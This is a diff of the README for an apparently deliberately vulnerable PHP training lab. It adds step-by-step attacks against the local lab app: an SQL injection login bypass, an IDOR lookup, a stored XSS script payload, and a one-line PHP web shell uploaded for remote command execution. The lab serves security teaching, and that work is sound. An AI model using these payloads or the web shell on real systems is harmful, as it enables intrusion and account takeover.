

Before and after one commit to ElhamBidarigh/securAI-vuln-lab, a Markdown page: README.md, 2 parts joined by grey strips. Shown: that part at 80% size. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -36,6 +50,42 @@ Then open:
 
 Default login: admin / admin123
 
+## Run the exploits
+
+Run the automated test suite that proves each vulnerability exists in vuln-app/ and is fixed in secure-app/:
+
+    chmod +x tests/exploit.sh
+    ./tests/exploit.sh
+
+Expected output: **10 passed, 0 failed**
+
+## Try the attacks yourself
+
+### SQL Injection
+
+1. Go to http://localhost:8081/login.php
+2. Username: `' OR '1'='1' -- ` (with trailing space)
+3. Password: anything
+4. Click Sign in — you're logged in as admin without a password
+
+### IDOR
+
+1. Log in as alice / alice123
+2. Visit http://localhost:8081/profile.php?id=1
+3. You can see admin's email, role, and bio
+
+### Stored XSS
+
+1. Log in and go to http://localhost:8081/comment.php
+2. Post: `<script>alert(1)</script>`
+3. Reload http://localhost:8081/ — the script fires in every visitor's browser
+
+### File Upload to RCE
+
+1. Save a file named `shell.php` with content: `<?php system($_GET["c"]); ?>`
+2. Upload it at http://localhost:8081/upload.php
+3. Visit http://localhost:8081/uploads/shell.php?c=id — arbitrary command execution
+
 ## Automated security scan
 
 This repository ships with a GitHub Actions workflow that runs on every PR and push. It combines Gitleaks, Semgrep, and dependency audits into a single beautiful HTML report.
@@ -57,6 +107,13 @@ See report/SECURITY-REPORT.md — a real pentest-style report with CVSS scores,
 | ⚙️ Security Action | CI/CD (GitHub Actions) | [Workflow](.github/workflows/security-scan.yml) |
 | 🔍 Active Scanner | Live URL scanner (PHP) | [Repo](https://github.com/ElhamBidarigh/securAI-active-scanner) |
 
+## Tech stack
+
+- PHP 8.3 (Apache)
+- MySQL 8.0
+- Docker Compose
+- Bash test suite
+
 ## License
 
 MIT — for educational use only.
```
Also changed, not shown: other parts of README.md (+14 -0 lines), docs/screenshot-secure-home.png (added), docs/screenshot-sqli-blocked.png (added), docs/screenshot-sqli-success.png (added), docs/screenshot-tests-pass.png (added), docs/screenshot-vuln-home.png (added).
